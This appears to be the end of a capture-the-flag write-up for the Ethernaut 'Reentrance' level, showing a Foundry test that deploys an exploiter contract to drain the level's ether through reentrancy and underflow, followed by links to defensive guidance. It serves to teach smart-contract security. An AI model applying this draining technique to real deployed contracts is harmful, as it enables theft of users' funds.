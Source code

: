 And here's the code to execute it

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Balance of player before
    uint256 playerBalance = player.balance;
    uint256 levelBalance = address(level).balance;

    // Exploit by using a mix of reentrancy and underflow
    // Deploy our exploiter contract
    ExploiterUnderflow exploiter = new ExploiterUnderflow(level);
    // start the exploit
    exploiter.exploit{value: 1}();
    // withdraw all the funds
    exploiter.withdraw();

    // check that the victim has no more ether
    assertEq(address(level).balance, 0);

    // check that the player has all the ether present before in the victim contract
    assertEq(player.balance, playerBalance + levelBalance);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Reentrance.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Reentrance.t.sol)

## Further reading

- [Solidity Docs: Use the Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern)
- [SWC-107: Reentrancy](https://swcregistry.io/docs/SWC-107)
- [Consensys Ethereum Smart Contract Best Practices: Reentrancy](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/)
- [OpenZeppelin: ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
